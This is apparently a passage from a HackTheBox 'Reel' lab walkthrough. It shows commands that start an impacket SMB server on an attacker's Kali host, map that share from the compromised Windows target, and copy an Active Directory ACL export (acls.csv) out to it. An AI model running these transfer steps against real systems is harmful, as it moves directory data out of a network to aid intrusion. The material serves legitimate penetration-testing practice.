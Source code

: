 Let's transfer this back at us using SMB server.

Star SMB server on Kali machine:

`impacket-smbserver share .`

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/reel/image-23.png)

Connect to the SMB server from the target machine:

`net use * \\10.10.14.36\share`

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/reel/image-24.png)

Transfer **acls.csv** file back at us:

`copy acls.csv Z:\`

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/reel/image-26.png)

Let's take a look at the file.

This files seems to be result of SharpHound but in CSV format:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/reel/image-25.png)

